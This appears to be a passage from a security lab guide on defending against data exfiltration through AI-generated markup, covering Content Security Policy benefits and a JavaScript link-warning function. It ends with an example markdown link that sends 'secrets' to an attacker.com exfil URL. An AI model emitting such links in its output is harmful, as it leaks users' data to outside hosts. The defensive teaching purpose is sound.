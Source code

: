 **CSP Benefits:**
- Blocks external image loading (prevents exfiltration)
- Prevents inline scripts (XSS mitigation)
- Restricts AJAX requests (limits data leakage)
- Browser-level enforcement (even if AI outputs malicious markup)

---

### Lab 5: Display Full URLs Before Click

**User-Facing Security:**
```javascript
// JavaScript to display full URL before user clicks
function enhanceLinkSecurity() {
    document.querySelectorAll('a').forEach(link => {
        link.addEventListener('mouseover', function() {
            const href = this.getAttribute('href');

            // Display full URL in tooltip
            this.title = `Destination: ${href}`;

            // Visual indicator for external links
            if (!href.startsWith(window.location.origin)) {
                this.style.color = 'red';
                this.innerHTML += ' <span style="color:red;">[EXTERNAL]</span>';
            }
        });

        link.addEventListener('click', function(e) {
            const href = this.getAttribute('href');

            // Confirm external navigation
            if (!href.startsWith(window.location.origin)) {
                const confirmed = confirm(
                    `You are about to visit an external site:\n\n${href}\n\nContinue?`
                );

                if (!confirmed) {
                    e.preventDefault();  // Block navigation
                }
            }
        });
    });
}

// Apply security on page load
document.addEventListener('DOMContentLoaded', enhanceLinkSecurity);
```

**User Experience Benefits:**
- Visible URL before click (informed decisions)
- External link warnings (prevent phishing)
- Confirmation dialogs (stop accidental clicks)

---

[ref]: https://attacker.com/exfil?data=secrets